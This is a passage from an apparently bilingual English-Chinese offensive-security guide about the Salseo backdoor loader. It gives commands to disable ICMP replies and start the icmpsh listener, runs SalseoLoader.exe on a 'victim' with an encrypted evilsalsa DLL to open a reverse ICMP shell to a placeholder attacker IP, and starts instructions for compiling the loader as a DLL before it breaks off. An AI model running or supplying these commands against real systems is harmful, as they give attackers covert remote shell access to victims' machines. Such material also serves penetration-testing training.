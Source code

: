 #### **Disable ICMP Replies:**

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

#### Execute the client:

####执行客户端：

```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```

#### Inside the victim, lets execute the salseo thing:

####在受害者内部，让我们执行Salseo的事情：

```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```

## Compiling SalseoLoader as DLL exporting main function

##将salseoloader作为DLL导出主要功能

Open the SalseoLoader project using Visual Studio.

使用Visual Studio打开Salseoloader项目。

### Add before the main function: \[DllExport]

###在主函数之前添加：\ [dllexport]

![](<../.gitbook/assets/image (2) (1) (1).png>)

### Install DllExport for this project

###为该项目安装dllexport

#### **Tools** --> **NuGet Package Manager** --> **Manage NuGet Packages for Solution...**

#### **工具**  - > ** Nuget软件包管理器**  - > **管理Nuget软件包用于解决方案... **

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

#### **Search for DllExport package (using Browse tab), and press Install (and accept the popup)**

#### **搜索dllexport软件包（使用浏览选项卡），然后按安装（并接受弹出窗口）**
